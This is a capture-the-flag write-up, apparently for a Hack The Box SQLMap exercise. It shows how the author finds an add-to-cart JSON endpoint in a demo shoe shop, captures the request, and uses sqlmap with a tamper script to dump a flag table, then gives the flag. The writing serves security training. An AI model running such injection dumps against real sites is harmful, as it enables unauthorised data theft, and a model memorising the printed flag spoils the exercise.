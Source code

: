 ```yaml
---
sticker: lucide//database-backup
---
```

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204180837.png)

Once we go into the site, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
    $(".add-to-cart").click(function(event) {
        event.preventDefault();

        let xhr = new XMLHttpRequest(); 
        let url = "action.php"; 
    
        xhr.open("POST", url, true); 
        xhr.setRequestHeader("Content-Type", "application/json"); 

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) { 
                alert("Item added!!!")
            }
        };

        var data = JSON.stringify({ "id": 1 }); 
        xhr.send(data); 
    });
  </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204183428.png)
